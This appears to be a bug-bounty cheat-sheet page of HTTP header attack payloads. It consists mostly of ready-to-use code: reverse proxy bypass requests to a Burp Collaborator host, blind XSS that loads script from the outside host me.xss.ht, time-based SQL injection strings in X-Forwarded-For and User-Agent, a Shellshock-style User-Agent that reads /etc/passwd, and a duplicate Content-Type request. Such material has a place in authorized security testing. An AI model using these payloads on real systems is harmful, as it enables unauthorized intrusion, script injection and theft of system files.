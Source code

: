 ```http
GET /Endpoint-To-Proxy@RandomString(10).id.burpcollaborator.net# HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Connection: keep-alive
-------------------------------------------------
GET @RandomString(10).id.burpcollaborator.net/Endpoint-To-Proxy HTTP/1.1
GET :@RandomString(10).id.burpcollaborator.net/Endpoint-To-Proxy HTTP/1.1
GET /Endpoint-To-Proxy:@RandomString(5).id.burpcollaborator.net# HTTP/1.0
GET /Endpoint-To-Proxy@RandomString(5).id.burpcollaborator.net# HTTP/1.0
----------------------------------------------
// resources
https://www.youtube.com/watch?v=zP4b3pw94s0
https://www.youtube.com/watch?v=gluSEBZpplQ
https://www.contextis.com/us/blog/server-technologies-reverse-proxy-bypass
```

### Blind XSS or Time-Based SQLi in X-Forwarded-For header&#x20;

```html
"><script src=//me.xss.ht></script>
 ";WAITFOR DELAY '0.0.20'--
```

{% embed url="https://x.com/intigriti/status/1093468744079364096" %}

{% embed url="https://research.securitum.com/x-forwarded-for-header-security-problems/" %}

### Blind XSS or QLI in User Agent

```
"><script src=//me.xss.ht></script>
'XOR(if(now()=sysdate(),sleep(30),0))OR'
User-Agent: Mozilla/5.0'XOR(if(now()=sysdate(),sleep(30),0))OR'
```

{% embed url="https://twitter.com/0x01alka/status/1112060432691412998" %}

{% embed url="https://hackerone.com/reports/297478" %}

### RCE in User Agent

```http
User-Agent: { :;}; echo $(</etc/passwd)
```

{% embed url="https://twitter.com/hemanth1261/status/1265691520495017984" %}

### Double Content-Type Header

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data
Content-Type: application/json
Content-Length: Number
Origin: https://www.company.com
parameter=value
```
